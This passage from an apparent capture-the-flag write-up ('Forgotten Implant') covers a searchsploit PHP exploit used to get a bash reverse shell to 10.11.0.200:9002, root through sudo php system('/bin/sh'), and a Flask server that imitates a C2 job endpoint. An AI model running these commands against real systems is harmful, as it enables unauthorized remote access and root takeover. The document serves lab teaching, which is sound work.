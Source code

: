 ```sh
searchsploit -m php/webapps/50457.py

mv 50457.py exploit.py
```
Test the exploit works.
![Test Exploit](/img/forgotten_implant/exploit_test.png "Testing The Exploit")

As we can see from above the exploit works and we get the user name back from the `whoami` command.

### Second Reverse Shell

Start another listener on port 9002 on you kali box and execute the following payload.

![Second Listener](/img/forgotten_implant/second_rev.png "Second Listener on 9002")

Using the exploit send the following to get a second reverse shell as user www-data:

```sh
python3 exploit.py 10.10.231.22 8080 / app <password redacted> "bash -c 'exec bash -i &>/dev/tcp/10.11.0.200/9002 <&1'"
```
![Second Shell](/img/forgotten_implant/second_shell.png "Payload for Second Rev Shell")

Second reverse shell established.
![Shell Established](/img/forgotten_implant/second_estab.png "Second Rev Shell Established")

### Privilege Escalation

I normally run `sudo -l` as a manual enumeration check and it turns out that running `sudo -l` shows we can run `/usr/bin/php` as root.  I know GTFOBins has a privilege escalation for this so browse to https://gtfobins.github.io/gtfobins/php/ and take a look.

![GTFO PHP](/img/forgotten_implant/gtfo_php.png "GTFO Priv Esc Method")

On our target we now need to run `sudo /usr/bin/php -r "system('/bin/sh');"` to get root.

![Root Access](/img/forgotten_implant/root.png "We Are Root!" )

That's it. 👏🏻 Now you can submit the root flag to finish the room ☠️

---
### Final Thoughts

Another way to simulate the C2 on our box would be to create a `Flask` server to respond to the C2. Changing the return response data to base64 we can execute commands on the box.  Doing it this ay we would not need to create the folder `get-job` or the file `ImxhdGVzdCI=`. This was a fun and challenging box to complete. 👍🏻

```python
from flask import Flask

app = Flask(__name__)

@app.route('/get-job/ImxhdGVzdCI=')
def get_job():
    #return '{"job_id": 0, "cmd": "whoami"}' # Before Base 64 encoding
    return 'eyJqb2JfaWQiOiAwLCAiY21kIjogIndob2FtaSJ9Cg=='

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=81)
```

---

